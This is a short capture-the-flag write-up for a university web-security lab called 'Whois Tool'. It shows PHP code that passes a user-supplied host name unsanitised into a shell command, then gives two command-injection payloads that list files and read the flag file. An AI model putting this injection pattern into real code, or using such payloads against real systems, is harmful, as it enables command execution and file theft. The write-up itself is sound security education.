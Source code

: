 ```yaml
---
title: Simple Web - 0x02(Lab - Whois Tool)
tags: [CTF, Web, eductf]

category: "Security/Course/NTU CS/Web"
---
```


# Simple Web - 0x02(Lab - Whois Tool)
###### tags: `CTF` `Web` `eductf`
Challenge: https://whoistool.ctf.zoolab.org/

## Background
Almost the same as [0x10(Lab - DNS Lookup Tool | WAF)](/7x0Gr0C_QEahfS_QaTLYTg)

## Source Code
```php=
<?php
if(isset($_GET["host"])){
  $host = $_GET["host"];
  if(strlen($host) > 15)
    echo "Host name tooooooo logn!!";
  else
    echo `whois "{$host}" 2>&1;`;
}
?>
```

## Exploit
Payload: `";ls -al;"`
![](https://i.imgur.com/MsG3wOH.png)
Payload: `";cat flag.t*;"`
Then we got flag!!!